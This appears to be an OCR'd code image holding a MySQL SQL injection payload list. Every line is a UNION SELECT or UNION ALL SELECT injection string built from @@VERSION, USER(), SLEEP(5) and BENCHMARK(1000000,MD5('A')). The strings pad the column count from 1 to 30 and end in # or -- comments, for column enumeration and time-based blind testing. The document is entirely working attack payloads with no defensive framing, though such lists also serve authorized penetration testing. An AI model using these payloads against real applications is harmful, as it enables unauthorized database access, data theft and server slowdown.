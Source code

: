       UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
      UNION SELECT @@VERSION,SLEEP(5),"'3
      UNION SELECT @@VERSION,SLEEP(5),"'3'"#
      UNION SELECT @@VERSION,SLEEP(5),USER(),4#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
      UNION ALL SELECT USER()-- 
      UNION ALL SELECT SLEEP(5)-- 
      UNION ALL SELECT USER(),SLEEP(5)-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5)-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A'))-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 